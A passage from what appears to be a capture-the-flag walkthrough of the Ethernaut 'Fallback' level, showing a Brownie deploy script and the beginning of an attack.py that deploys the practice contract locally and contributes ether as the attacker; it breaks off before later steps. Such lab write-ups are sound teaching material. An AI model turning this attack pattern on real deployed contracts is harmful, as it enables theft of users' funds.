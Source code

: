 ```py
#!/usr/bin/python3
from brownie import Fallback
from scripts.helpful_scripts import get_account


def deploy():
    owner, _ = get_account()

    fallback = Fallback.deploy({"from": owner})
    
    print(f"Contract Deployed to {fallback.address}")
    return fallback, owner


def main():
    deploy()
```

- First we're importing the Fallback contract from brownie i.e. the ABI (I guess so :)). Then the next import is our `get_account` function to get our testing accounts. This `deploy` function is deploying the contract locally & returnining the contract object & the address of the owner.

- Now the final & most important one.
- `attack.py`

```py
#!/usr/bin/python3
from brownie import interface
from web3 import Web3
from colorama import Fore
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account

# ? Global variables
AMOUNT = 0.00002
CONVERTED_AMOUNT = Web3.toWei(AMOUNT, "ether")

# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack(contract_address=None, attacker=None):
    if contract_address is None:
        fallback_contract, owner = deploy()
        contract_address = fallback_contract.address
        # ? Geeting the accounst for local testing
        _, attacker = get_account()

    # print(contract_address)
    # print(attacker)
    # exit(1)

    fallback = interface.Fallback(contract_address)
    contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
    contrib_tx.wait(1)

    print(f"{green}Contributed {AMOUNT} ETH to the contract{reset}")
    print(
        f"Contract Balance: {green}{Web3.fromWei(fallback_contract.balance(), 'ether')} ETH{reset}"
    )
```